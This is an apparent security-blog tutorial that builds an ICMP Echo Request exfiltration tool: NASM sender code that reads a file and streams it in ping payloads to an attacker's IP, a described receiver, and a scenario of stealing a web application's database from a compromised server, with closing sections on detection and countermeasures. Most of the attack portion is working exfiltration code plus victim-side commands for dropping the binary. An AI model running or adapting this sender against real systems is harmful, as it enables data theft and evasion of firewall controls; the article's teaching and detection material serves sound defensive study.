



Data Exfiltration via ICMP Echo Request
Data exfiltration via ICMP Echo Request.
Responsible use
The content of this website is published exclusively for educational and informational purposes. The author does not promote, endorse, or accept responsibility for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out only in controlled environments, on systems you own, or with the explicit and verifiable authorization of the system owner.
Introduction¶
This article develops, step by step, a mechanism for exfiltrating information through the ICMP protocol. The implementation is divided into two components: a sender, running on the victim machine, that embeds the data to be extracted in ICMP Echo Request messages, and a receiver, located on the attacker machine, that processes the incoming messages to reassemble the transmitted information.
The source code is available here.
ICMP Echo¶
ICMP (Internet Control Message Protocol, RFC 792) is the control protocol that accompanies IP. Among its messages are the Echo Request (type 8) and the Echo Reply (type 0). When a host receives an Echo Request, its network stack responds with an Echo Reply that reproduces the received data field in its entirety.
This data field is opaque to the protocol. ICMP assigns it no structure or meaning, only requiring the Echo Reply to return it unaltered. It is, therefore, a viable transport medium for our bytes.
An ICMP Echo message consists of a fixed 8-byte header followed by the variable-length data field:
0 1 2 3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 bits
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Type | Code | Checksum |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Identifier | Sequence Number |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Data (variable length) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Field | Bytes | Purpose | Value in Echo Request | Value in Echo Reply |
|---|---|---|---|---|
| Type | 0 | ICMP message type. Distinguishes an Echo Request or Echo Reply from other ICMP messages. | 8 (Echo Request) | 0 (Echo Reply) |
| Code | 1 | A subtype within the type. Not used for Echo messages. | 0 | 0 |
| Checksum | 2-3 | Checksum of the entire ICMP message (header and data), used to detect corruption in transit. | Computed by the kernel | Recomputed by the remote host's kernel |
| Identifier | 4-5 | Identifies the sender. The remote host reflects it in the Echo Reply, enabling delivery of the response to the socket that originated the request. | Written by the kernel | Reflected (same as the request) |
| Sequence Number | 6-7 | Numbers each Echo within a series. The Echo Reply returns it, allowing each response to be matched with its request and enabling loss detection. | Defined by the sender (e.g., incremental counter in network byte order) | Reflected (same as the request) |
Packet breakdown¶
The same header (8 bytes), now field by field with its byte offset:
Taking the value to exfiltrate deadbeef (4 bytes), the complete buffer the program will assemble before transmission will occupy 12 bytes (header + data):
When the destination host receives the Echo Request, its network stack will respond with an Echo Reply (type 0). The reply preserves the same header structure and, most importantly, reproduces the data field byte for byte. This mechanism allows integrity verification in both directions.
The Echo Reply header has the same 8-byte layout as the request; only the values change, not the fields or their positions.
Channel constraints¶
The maximum size of the data field is limited by the network interface's MTU. Furthermore, since the ICMP packet is encapsulated within an IP packet, the headers of both protocols must be accounted for.
Exceeding this limit causes IP fragmentation.
ICMP datagram sockets¶
Crafting an ICMP message generally requires a raw socket (SOCK_RAW), which demands the CAP_NET_RAW privilege. However, there is a lower-privilege interface: the ICMP datagram socket, requested with socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP). It is a deliberately restricted interface that only works with Echo messages, and its use is therefore typically authorized for unprivileged processes.
Authorization is governed by the kernel parameter net.ipv4.ping_group_range, which defines the range of group identifiers (GIDs) that are allowed:
A range of 0 2147483647 enables all groups. A range of 1 0 is empty (minimum greater than maximum) and enables no one; in that case, socket will fail with EACCES (errno 13).
The value can be modified as follows:
The ICMP datagram socket differs from the raw socket in several ways that should be understood before designing the program:
| Aspect | Raw Socket | ICMP Datagram Socket |
|---|---|---|
| Required privilege | CAP_NET_RAW |
None (subject to ping_group_range) |
| ICMP checksum | Computed by the sender | Computed by the kernel |
| Identifier field | Set by the sender | Written by the kernel (demultiplexing key) |
| Reception | Includes the IP header | No IP header, starts at the ICMP header |
| Messages | Any ICMP message type | Only Echo Request (send) and Echo Reply directed to that socket (receive) |
Tool flow¶
The goal is to build a program that reads a file from the local filesystem, splits it into fixed-size blocks, and transmits them within the data field of ICMP Echo Request messages. On the receiving end, the packets are captured, indexed by their Sequence Number, and the original file is reconstructed from the ordered fragments.
The design is divided into two components:
- The sender (NASM), runs on the target system.
- The receiver (Python), runs on the attacker's machine.
Sender flow¶
Sender implementation¶

Data structures¶
The program defines the following structures in the .data section:
section .data
pathname db '/etc/services', 0 ; Pathname
size_block dq 2 ; Size of each data chunk (bytes)
seq_n dw 1 ; Current sequence number
req:
dq 0 ; tv_sec = 0 seconds
dq 10000000 ; tv_nsec = 10000000 nanoseconds (10 ms)
echo_request_header:
db 8 ; Type
db 0 ; Code
dw 0 ; Checksum
dw 0 ; Identifier
dw 0x0000 ; Sequence Number (net order)
sockaddr_in:
dw 2 ; sin_family = AF_INET
dw 0 ; sin_port = 0
dd 0x00000000 ; sin_addr = 0.0.0.0 (accepts from all interfaces)
dq 0 ; sin_zero (padding)
section .bss
icmp_request resb 1480 ; Full ICMP packet buffer (header + payload)
file_size resq 1 ; Total file size in bytes
buff resq 1 ; Pointer to heap-allocated read buffer
pathnameis the path of the file to exfiltrate, null-terminated.size_blockdetermines the size of each fragment. It dictates how many bytes of the file are included as the data field in each ICMP packet.seq_nrefers to the Sequence Number of the next packet to be sent. It starts at 1 and is incremented after each transmission. The receiver uses it as a sorting key to reconstruct the file.reqis astruct timespecused to introduce a delay between packets, preventing the kernel from applying rate limiting on outgoing ICMP messages.echo_request_headeris the ICMP header template (8 bytes). The Type (8 = Echo Request) and Code (0) are fixed. The Checksum and Identifier are left at zero because the kernel fills them in automatically when using aSOCK_DGRAMsocket. The Sequence Number will be overwritten before each transmission.sockaddr_inidentifies the packet destination.sin_familyindicates IPv4,sin_portis 0 (ICMP does not use ports), andsin_addrcontains the destination IP address.
In the .bss section, the uninitialized buffers are reserved:
icmp_request(1480 bytes) is the buffer where the complete ICMP packet will be assembled (8 bytes of header + up to 1472 bytes of data).file_sizestores the total size of the file to be transmitted.buffstores the address of a heap buffer. This is the intermediate area where each block read from the file is placed before being copied into the ICMP packet.
Opening the file and calculating its size¶
The file is opened in read-only mode with the open syscall, returning the file descriptor that will identify it for the remainder of the program:
; OPEN
mov rax, 2
lea rdi, [rel pathname]
xor rsi, rsi ; O_RDONLY = 0
xor rdx, rdx ; mode = 0
syscall
mov r12, rax ; Save file descriptor
The file size is obtained by seeking the file descriptor's read cursor to the end with lseek. The resulting offset corresponds to the total size in bytes:
; LSEEK
mov rax, 8
mov rdi, r12
xor rsi, rsi ; offset = 0
mov rdx, 2 ; SEEK_END
syscall
lea r13, [rel file_size]
mov [r13], rax ; Store file size
Memory allocation¶
The program allocates space on the heap by manipulating the program break with brk:
;BRK
mov rax, 12
xor rdi, rdi ; Query current program break
syscall
lea r13, [rel buff]
mov [r13], rax ; Store heap buffer address
mov r14, [rel size_block]
mov rax, 12
mov rdi, r13
add rdi, r14 ; Extend break by size_block bytes
syscall
The first invocation queries the current program break. The second extends it by size_block bytes. This gives us a heap buffer capable of holding size_block bytes of the file to exfiltrate.
After allocating memory, the file cursor is reset to the beginning:
Socket creation¶
The ICMP socket is created using the socket syscall:
; SOCKET
mov rax, 41
mov rdi, 2 ; AF_INET = 2 = IPv4
mov rsi, 2 ; SOCK_DGRAM = UPD Datagrams
mov rdx, 1 ; IPPROTO_ICMP = ICMP Protocol
syscall
; rax < 0 error
; rax > FD
mov r13, rax ; Save socket fd
Using SOCK_DGRAM with IPPROTO_ICMP allows sending Echo messages without requiring the CAP_NET_RAW capability, delegating checksum computation and Identifier assignment to the kernel.
Read and send loop¶
The main loop reads the file block by block, constructs the ICMP packet, and transmits it:
xor r14,r14
read_loop:
;READ
mov rax, 0
mov rdi, r12 ; FD
lea rsi, [rel buff] ; Destination buffer
mov rdx, [rel size_block] ; Bytes to read
syscall
add r14, rax ; Accumulate total bytes read
lea r15, [rel buff]
Each iteration reads up to size_block bytes from the file. The last read may return fewer bytes if there are not enough remaining, in which case the rest of the block remains zeroed.
Packet construction¶
The header_creation function copies the 8 bytes of the ICMP header to the beginning of the outgoing packet (icmp_request):
header_creation:
lea rsi, [rel echo_request_header]
lea rdi, [rel icmp_request]
mov rcx, 1
cld
rep movsq
ret
data:
call header_creation ; Create ICMP header
; Create ICMP Data
mov rsi, r15
lea rdi, [rel icmp_request + 8]
mov rcx, [rel size_block]
cld
rep movsb
Next, the Sequence Number value in the header is replaced with the value corresponding to the current transmission. The field must be in network byte order (big-endian):
mov ax, [rel seq_n] ; Load current sequence number
xchg al, ah ; Convert to network byte order (big-endian)
mov word [rel echo_request_header + 6], ax
Delay between transmissions¶
The Linux kernel applies rate limiting to outgoing ICMP messages through the net.ipv4.icmp_ratelimit parameter. Without a delay between transmissions, the kernel will silently discard packets.
Sending and loop control¶
The sendto syscall transmits the complete icmp_request packet (8-byte header + size_block bytes of data) to the destination defined in sockaddr_in. The kernel automatically prepends the IP header (20 bytes), computes the ICMP checksum, and writes the Identifier. After sending, the Sequence Number is incremented for the next packet.
; SENDTO
mov rax, 44
mov rdi, r13 ; Socket fd
lea rsi, [rel icmp_request] ; Packet buffer
mov rdx, 8 ; Total length = header
add rdx, [rel size_block] ; Total length = header + payload
xor r10, r10 ; Flags = 0
lea r8, [rel sockaddr_in] ; Destination address
mov r9, 16 ; Address struct size
syscall
inc word [rel seq_n]
Before returning to the top of the loop, the read buffer is filled with zeros to prevent residual data from contaminating the next block (which may be shorter than size_block):
lea rdi, [rel buff]
mov rcx, [rel size_block]
xor al, al ; Fill value = 0
cld
rep stosb
cmp r14, [file_size]
jl read_loop
When the total file size is reached, the program exits the loop, closes the file descriptor, and terminates:
Receiver flow¶
The receiver runs on the attacker's machine. It uses a raw socket (SOCK_RAW, IPPROTO_ICMP) to capture incoming Echo Requests, since an ICMP datagram socket only delivers Echo Replies corresponding to Echo Requests sent by that same socket. The raw socket requires privileges (CAP_NET_RAW).
For each received packet, the receiver computes the actual IP header length (IHL field), jumps to the beginning of the ICMP header, filters by type 8 and code 0, extracts the Sequence Number in network byte order, and stores the payload in an indexed dictionary. When an inactivity period elapses without receiving new packets, the file is reconstructed by concatenating payloads in ascending Sequence Number order, and the trailing null bytes of the last block are stripped.
The receiver supports multiple transmission rounds. If packets are lost, the sender can be relaunched and the gaps in the dictionary will be filled in with each run.
Practical scenario¶
A web server has been compromised by exploiting a remote command execution vulnerability. The firewall rules allow incoming traffic to the web service but block outbound TCP and UDP connections, preventing the establishment of a reverse shell or data exfiltration through conventional channels. However, outbound ICMP traffic is allowed, as the host uses it for availability monitoring.
The objective is to exfiltrate the application database (app.db), a binary file larger than one megabyte that cannot be dumped through the HTTP response.
Preparation¶
ping.asm is edited before compilation, setting the target file path and the attacker's IP address as the destination:
pathname db '/var/www/html/app.db', 0
size_block dq 256
...
sockaddr_in:
dw 2
dw 0
dd 0x1212A8C0 ; Attacker's IP in little-endian
dq 0

The sender is compiled:
Transfer¶
The compiled binary is transferred to the compromised machine through the RCE vulnerability (Base64-encoded for HTTP transport):

# Victim Machine
# Store the executable in /tmp
echo '<ping_base64>' | base64 -d > /tmp/ping
# Grant execute permissions to the file
chmod +x /tmp/ping
Deployment¶
The receiver is launched on the attacker's machine:
Once the receiver is running, the sender is launched on the target machine:

Verification¶
When iteration N detects no new packets, it is interrupted with Ctrl+C to reconstruct the file:


The integrity of the exfiltrated file is verified by comparing hashes:


The file has been exfiltrated without establishing any TCP or UDP connection, using only ICMP traffic.
Detection¶
This technique is cataloged in MITRE ATT&CK under techniques T1095 (Non-Application Layer Protocol) and T1048 (Exfiltration Over Alternative Protocol).
The indicators that a detection system can detect are the following:
- Payload size: ICMP Echo messages generated by the Linux
pingutility carry 56 bytes of data by default (48 bytes of padding after the 8-byte timestamp). Windows messages carry 32 bytes with a recognizable alphabetical pattern. A sustained flow of Echo Requests with a larger payload deviates from the baseline. - Volume and frequency: a legitimate
pingsends one packet per second. The sender, even with the 10-millisecond delay, generates vastly more traffic (although this could be tuned and even jittered). NDR (Network Detection and Response) solutions correlate the number of Echo Requests per time unit with the variation in their payload sizes to identify tunneling activity. - Payload entropy: the content of a legitimate
pingfollows a predictable pattern (incremental bytes on Linux, alphabetical sequence on Windows). Exfiltrated data exhibits a different byte distribution, which increases payload entropy. An IDS that computes entropy could identify the exfiltration. - Uniform temporal pattern: a constant delay between packets (10 ms in this implementation) produces a temporal pattern that stands out against organic ICMP traffic. Introducing random jitter between transmissions hinders detection based on timing analysis.
Defensive countermeasures¶
From the defender's perspective, the most effective measures are:
- Rate limiting outbound ICMP messages: the
net.ipv4.icmp_ratelimitkernel parameter limits the sending rate of outbound ICMP messages. A restrictive value (e.g., one message per second) drastically reduces the information exchange rate. - Blocking ICMP messages beyond the perimeter: many corporate environments do not require outbound Echo Requests. Blocking them eliminates this vector.
- ICMP message inspection: IDS rules that alert on Echo Requests with sizes exceeding a threshold (64 bytes covers legitimate
pingmessages from both platforms). - Monitoring with eBPF: eBPF programs attached to the network subsystem (
TCorXDP) can inspect ICMP packets in the kernel before they leave the host, enabling detection at the point of origin.
Acknowledgments¶
Thank you for making it this far.
If you find errors or want to improve or extend this article, the blog content is open to Pull Requests. All contributions are welcome.
See you in the next article! ;)